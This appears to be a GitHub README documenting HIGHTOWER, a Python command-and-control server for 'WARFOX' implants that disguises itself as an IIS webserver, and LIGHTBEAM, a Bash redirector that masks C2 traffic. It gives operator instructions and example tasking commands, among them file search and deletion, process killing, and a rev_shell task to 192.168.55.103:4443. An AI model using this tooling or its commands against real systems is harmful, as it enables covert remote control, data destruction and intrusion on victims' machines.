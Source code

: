 ## HIGHTOWER

### Overview

HIGHTOWER is a Python based HTTP server that supports WARFOX infections, HIGHTOWER relies on the `http.server` Python module. HIGHTOWER is unique in the fact that it mimics a legitimate IIS webserver.

### Usage Guide

You can use the `!help` terminal command to display the help menu which provides an overview of how to configure the server for the first time, and what tasks you can issue to WARFOX. 

<p align="center">
  <img src="https://user-images.githubusercontent.com/54753063/147890768-689381d6-fe58-4a4c-92f4-c2b3064e7bd0.png" />
</p>

You can use the `!settings` terminal command to display the current server settings. You are required to set a listening port with `!listen` before issuing tasks. 

<p align="center">
  <img src="https://user-images.githubusercontent.com/54753063/147707918-a11298e8-d5a1-43c8-b14b-f24751de630d.png" />
</p>

The `!listen` server command takes a port to listen on, after executing this command, the SRVPORT setting is populated

After you set a listening port, you can issue new tasks to hosts that beacon to HIGHTOWER using the `!issue` command. Certain tasks such as `rev_shell` require additional data, you can find a list of which commands require data in the technical documentation PDF

<p align="center">
  <img src="https://user-images.githubusercontent.com/54753063/147708078-aaf6ab31-4168-4d35-b336-22c78951799f.png" />
</p>

New certificates for enabling SSL/HTTPS can be generated using the `!sslgen` command, this generates a new certificate which includes blank field values

#### Interaction Command Examples

- `issue find_files c:\users\maxim\documents\*`
- `issue del_file c:\users\maxim\documents\test.docx`
- `!issue kill_pid 5597`
- `!issue find_exec_command calc.exe`
- `!issue rev_shell 192.168.55.103:4443`

## LIGHTBEAM

LIGHTBEAM is a Bash based TCP traffic redirector that can be used to mask traffic between WARFOX and HIGHTOWER. 

To configure LIGHTBEAM you need to set the following variables:
1. `LOCAL_LISTENING_PORT` is the local port that recieves inbound TCP traffic from WARFOX
2. `C2_SERVER_IP` is the IP address of the remote server to redirect traffic to
3. `C2_SERVER_PORT` is the port that the layer2 remote server is listening on
